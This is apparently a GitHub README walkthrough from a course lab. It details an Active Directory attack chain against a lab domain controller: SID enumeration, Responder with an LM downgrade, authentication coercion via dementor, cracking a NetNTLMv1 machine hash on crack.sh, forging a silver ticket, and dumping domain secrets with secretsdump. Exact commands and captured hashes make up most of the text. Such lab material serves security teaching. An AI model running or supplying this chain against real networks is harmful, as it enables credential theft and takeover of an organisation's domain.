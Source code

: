 You can watch a video walk-through here: https://youtu.be/WuDTcwCjZ5s
# Getting the SID
```bash
enum4linux 192.168.50.135
```
The only information you need to run this command is the IP address of the Domain controller which in my case was 192.168.50.135.
![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415122818.png)
We find that the SID is "S-1-5-21-3294894903-2995586124-3146476039"
This will be used later when generating the silver ticket.

# Responder
```bash
sudo python Responder.y -I eth0 -wrf --lm
```
Here the argument "--lm" is important because it downgrade the authentication used so that we can use crack.sh for free.

# Dementor
While responder is running, we can use dementor so that responder catches the response.
```bash
python3 dementor.py -u hacker -p ‘WordPass1’ -d CYBERTIGERS 192.168.50.136 192.168.50.135
```
Here the username is "hacker" with password "WordPass1", the domain is cybertigers and the first IP address is the attacker's machine and the second IP is the Domain Controller.
![[Pasted image 20210415123202.png]]
We get the hash for the machine account to be WIN-A2HCLSJFD0C$::CYBERTIGERS:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:1122334455667788

# NTLM MultiTool
``` bash 
python ntlmv1.py --ntlmv1 "WIN-A2HCLSJFD0C$::CYBERTIGERS:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:1122334455667788"
```
![[Pasted image 20210415123624.png]]
This output of this command gives the exact syntax to crack the hash using either hashcat or crack.sh

# Crack.sh
![[Pasted image 20210415123723.png]]
You can see from the screenshot I took the output of the last command and put it in crack.sh to crack and did not have to pay. It takes about 30 seconds to crack and I got the token of b704c94f943cd358cc77900267266b65

# Generating a Silver Ticket
```bash
python3 ticketer.py -nthash b704c94f943cd358cc77900267266b65 -domain-sid S-1-5-21-3294894903-2995586124-3146476039 -domain CYBERTIGERS.net -spn "HOST/DC1.CYBERTIGERS.net" Administrator
```
We give ticketer.py the token from crack.sh and it is of type nthash, along with the SID we got earlier, the domain cybertigers, the spn which in this case is the default value, and the Administrator username which is again default in this case.
![[Pasted image 20210415124056.png]]
The output is a file called Administrator.ccache

# DC Sync Time!
```bash
export KRB5CCNAME=Administrator.ccache
```
First you need to set the variable name KRB5CCNAME to the Administrator.ccache in order for secretsdump to work

```bash
python3 secretsdump.py Administrator@DC1.cybertigers.net -k -no-pass
```
Then we can run secrets dump giving it the username Administrator @ DC1 . the domain which is cybertigers.net and then we specify to use Kerberos because we have a silver ticket and to not ask for a password.
![[Pasted image 20210415124416.png]]
And that is it!
